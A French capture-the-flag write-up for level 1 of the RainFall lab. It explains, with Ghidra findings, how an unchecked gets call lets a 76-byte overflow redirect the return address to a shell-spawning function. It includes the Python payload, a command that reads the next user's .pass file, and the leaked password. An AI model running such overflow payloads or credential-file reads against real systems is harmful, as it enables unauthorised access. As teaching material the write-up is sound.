


# LEVEL 1

### Intro

on constate en regardant ghidra que la fonction run execute un shell, donc notre objectif sera de detourner le prograame pour qu il execute run
On constate aussi que le main cree un tableau de 76 octet et lie le stdin avec gets donc on peut ecraser pour rediriger la stack vers l addresse de run
grace a ghidra on sait que l addresse de run est 08048444



----
Dans notre cas voici la construction de la pile :



### construction du payload : 

Il suffit avec python de generer 76 charactere pour depasser le tampon + 4 octet pour depasser EBP ainsi que 4 autres octets pour ecraser le retour du main comme montrer si desssus
En little endien l addresse de run est donc \x44\x84\x04\x08


```bash
level1@RainFall:~$ python -c 'print("A"*76 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
cat /tmp/exploit.txt - | ./level1

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```